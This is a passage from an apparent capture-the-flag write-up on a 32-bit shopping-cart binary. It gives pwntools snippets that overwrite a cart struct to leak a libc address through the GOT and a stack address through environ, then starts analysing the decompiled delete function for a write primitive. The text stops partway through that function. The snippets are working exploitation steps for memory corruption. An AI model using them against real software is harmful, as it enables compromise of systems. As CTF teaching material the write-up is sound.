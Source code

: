 We can use the input buffer to overwrite the fields of the vulnerable cart item. We need to set the first character of 
our payload to `y`, and the second character to anything. The next 16 bytes contain the values of the struct:

{{ svg(path="5f478a485f6cee02e28f0454.svg") }}

We can set the name pointer to an arbitrary address to print the value at that address.

### Leaking Libc Base Address

By setting the name pointer to a global offset table (GOT) entry, we can leak the address of a function in libc. Since 
we also have the libc file, we can calculate the base address of libc by subtracting the offset of the function.

We can use the following to leak the address of `read` and calculate the base address of libc:
```python
def create_cart_struct(name_ptr, price_int, next_ptr=0, prev_ptr=0):
	return p32(name_ptr) + p32(price_int) + p32(next_ptr) + p32(prev_ptr)

cart(b'yy' + create_cart_struct(elf.got['read'], 0))

print(r.recvuntil(b'27: '))

LIBC_READ_ADDR = u32(r.read(4))
libc.address = LIBC_READ_ADDR - libc.symbols['read']
```

### Leaking a stack address

Now that we have the libc base address, we can leak a stack address by finding the value of the `char **environ` symbol 
in libc. The value at the address pointed to by `environ` has a constant offset to the base stack pointer of delete. 

By using GDB, I found this offset to be 260. The following leaks the address pointed to by delete's EBP: 

```python
cart(b'yy' + create_cart_struct(libc.symbols['environ'], 0))

r.recvuntil(b'27: ')

ENVIRON_STACK = u32(r.recv(4))
DELETE_EBP = ENVIRON_STACK - 260
```

## Writing to ~~arbitrary~~ addresses

The `delete` function is an interesting target to analyze when looking for a write primitive:

```cpp
void delete(void) {
  int iVar1;
  int input;
  int in_GS_OFFSET;
  int number;
  cart_item *cur_item;
  char input_str [22];
  cart_item *next;
  cart_item *prev;
  
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  number = 1;
  cur_item = myCart.next;
  printf("Item Number> ");
```

[show-line-numbers]: false